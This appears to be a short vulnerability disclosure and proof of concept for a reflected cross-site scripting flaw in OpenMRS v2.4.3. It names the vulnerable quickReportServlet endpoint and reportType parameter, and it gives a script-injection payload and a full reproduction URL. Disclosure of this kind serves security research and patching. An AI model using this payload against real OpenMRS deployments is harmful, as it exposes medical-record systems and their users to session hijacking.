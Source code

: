# CCVE-2025-25929 - PoC

---

## Reflected XSS


OpenMRS v2.4.3 Build 0ff0ed Allows attackers to execute arbitrary JavaScript or HTML by injecting a crafted payload into the reportType 
 parameter at the /openmrs/moduleServlet/legacyui/quickReportServlet endpoint

* Vulnerable Endpoint: /openmrs/moduleServlet/legacyui/quickReportServlet
* Vulnerable Param: reportType
* Payload: <script>alert(document.domain)</script>

---

### Steps to reproduce:

1.) Authenticate as any user who has access to View Quick Reports, in this case the Admin user.

2.) Proceed to http://localhost:8080/openmrs/moduleServlet/legacyui/quickReportServlet?reportType=RETURN+VISIT+DATE+THIS+WEEK%3Cscript%3Ealert(document.domain)%3C/script%3E&startDate=01%2F14%2F2025&endDate=01%2F15%2F2025&location= and observe reflected XSS within the reportType parameter:

![image](https://github.com/user-attachments/assets/cf915031-d93a-4d7a-9d72-6a750618088b)



